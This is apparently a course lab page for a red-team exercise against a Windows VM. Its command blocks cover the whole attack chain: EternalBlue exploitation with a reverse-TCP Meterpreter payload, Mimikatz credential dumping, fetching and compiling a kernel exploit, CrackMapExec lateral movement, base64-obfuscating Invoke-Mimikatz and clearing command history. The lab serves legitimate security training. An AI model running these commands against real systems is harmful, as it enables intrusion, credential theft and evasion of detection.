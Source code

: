 ```yaml
---
title: "ASP-3: Red Team Simulation & Adversarial Tactics Lab"
description: "Simulate a cyberattack using real-world adversarial tactics, including privilege escalation, lateral movement, and evasion."
date: 2025-03-08
tags: ["Red Team", "Lateral Movement", "Privilege Escalation", "Adversarial Simulation"]
categories: ["Advanced Security & Penetration Testing"]
draft: false
---
```


# ASP-3: Red Team Simulation & Adversarial Tactics Lab

## **Overview**
This lab focuses on **offensive security techniques** used by adversaries to **compromise systems, escalate privileges, and move laterally** in a network. Students will use real-world tools to simulate cyberattacks in a controlled environment.

---

## **Lab Instructions**

### **1. Setting Up Your Red Team Environment**
You will need:
- A **Kali Linux VM** (or Parrot Security OS)
- A **Windows Attack Target** (Windows 10/11 VM or Active Directory lab)
- Preinstalled tools: `Metasploit`, `BloodHound`, `Sliver`, `CrackMapExec`

---

### **2. Gaining Initial Access**
#### **Step 1: Exploit a Remote Service (Metasploit)**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [target_ip]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [attacker_ip]
exploit
```
📝 **Proof of Completion**: Take a screenshot of a successful session.

#### **Step 2: Credential Dumping with Mimikatz**
```powershell
mimikatz
privilege::debug
sekurlsa::logonpasswords
```
📝 **Proof of Completion**: Extract a set of credentials from the target machine.

---

### **3. Privilege Escalation**
#### **Step 1: Check for Misconfigurations**
```bash
whoami /priv
```
```bash
wmic qfe list brief | findstr "KB"  # Look for missing patches
```

#### **Step 2: Exploit a Kernel Vulnerability**
```bash
wget https://exploit-db.com/some_kernel_exploit.c -O exploit.c
gcc exploit.c -o exploit
./exploit
```
📝 **Proof of Completion**: Capture proof of administrator/system privileges.

---

### **4. Lateral Movement**
#### **Step 1: Enumerate Network Shares**
```bash
smbclient -L \\[target_ip] -U user
```
```bash
net use Z: \\[target_ip]\C$ /user:admin password
```
📝 **Proof of Completion**: Map a network share.

#### **Step 2: Move Laterally Using CrackMapExec**
```bash
crackmapexec smb [target_subnet] -u user -p password --exec "whoami"
```
📝 **Proof of Completion**: Show lateral movement to another machine.

---

### **5. Evading Detection**
#### **Step 1: Obfuscate PowerShell Scripts**
```powershell
$encoded = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("powershell -c Invoke-Mimikatz"))
write-output $encoded
```
📝 **Proof of Completion**: Show your obfuscated PowerShell command.

#### **Step 2: Hide Your Tracks**
```powershell
Remove-Item -Path "C:\\Windows\\Temp\\malware.exe" -Force
```
```bash
echo "" > ~/.bash_history
```
📝 **Proof of Completion**: Show a clean command history.

---

## **Final Submission**
- Submit a **Google Doc** with:
  - **Screenshots** of each phase (**initial access, privilege escalation, lateral movement, and evasion**).
  - A **short write-up** explaining each step.
- Ensure all steps are properly documented.

🚀 **Congratulations! You've completed the ASP-3 Red Team Simulation & Adversarial Tactics Lab!** 🚀
